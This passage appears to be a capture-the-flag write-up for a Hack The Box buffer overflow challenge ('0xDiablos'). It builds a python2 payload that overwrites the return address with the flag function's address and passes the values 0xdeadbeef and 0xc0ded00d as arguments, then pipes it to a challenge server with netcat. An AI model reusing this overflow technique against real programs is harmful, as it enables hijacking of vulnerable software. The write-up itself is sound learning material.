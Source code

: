 ```
```

Address for flag function is 0x080491e2...lets convert it to hex format with p32 from python pwntools

```
from pwn import \*
p32(0x080491e2)
b'\xe2\x91\x04\x08'
```

Payload is now `python2 -c "print('A'\*188 + '\xe2\x91\x04\x08')" | ./vuln`

```
You know who are 0xDiablos:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Hurry up and try in on server side.
```

we print A 188 times instead of 184 because we need to override the return value and past the base pointer(worth 4 bytes)

It didnt work yet on server...there are 2 arguments in said function we need to match

```
│ 0x08049246 817d08efbead. cmp dword [arg_8h], 0xdeadbeef
│ ┌─< 0x0804924d 751a jne 0x8049269
│ │ 0x0804924f 817d0c0dd0de. cmp dword [arg_ch], 0xc0ded00d
│ ┌──< 0x08049256 7514 jne 0x804926c
```

we convert 0xdeadbeef and 0xc0ded00d to hex format and add them to payload + 4 bytes of characters

Now the final paylaod is:

`python2 -c "print('A'*188 + '\xe2\x91\x04\x08'+'A'*4+'\xef\xbe\xad\xde\r\xd0\xde\xc0')" | ./vuln`

used an exploit.py script for better comfort and usabilty BUT IT DIDNT WORK
seems like PAYLOAD ONLY WORKS WITH PYTHON2

I had to find another way and used netcat

wich worked

```
python2 -c "print('A'*188 + '\xe2\x91\x04\x08'+'A'*4+'\xef\xbe\xad\xde\r\xd0\xde\xc0')" | nc 138.68.131.63 31365
You know who are 0xDiablos:
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAﾭ�
HTB{Ìnsert_flag_here}
```

How was that an easy challenge? imagine the difficulty of buffer overflow in general now...Go learn assembly

